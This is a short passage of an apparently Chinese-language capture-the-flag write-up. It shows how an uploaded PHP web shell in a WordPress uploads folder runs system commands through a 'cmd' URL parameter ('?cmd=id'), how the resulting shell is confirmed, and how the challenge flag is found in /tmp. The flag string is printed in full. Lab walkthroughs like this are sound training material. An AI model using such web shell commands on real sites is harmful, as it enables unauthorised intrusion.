     ![1748229316228](image/readme/1748229316228.png)
   **第一种方法 :**
      - 通过 URL 参数 `cmd` 执行系统命令，例如：
         ```
         http://<your_ip>:<your_port>/wp-content/uploads/2025/05/c.php?cmd=id
         ```
      - 如果返回用户 ID 信息，则说明木马执行成功，获得了 Shell。
      ![1748229325617](image/readme/1748229325617.png)
      ![1748229335224](image/readme/1748229335224.png)
      - 由此,我们找到/tmp目录下的flag,将其输入到场景flag中,成功得分
      flag为`flag-{bmh9a8fd407-0aac-4b54-995d-4bb306a739f5}`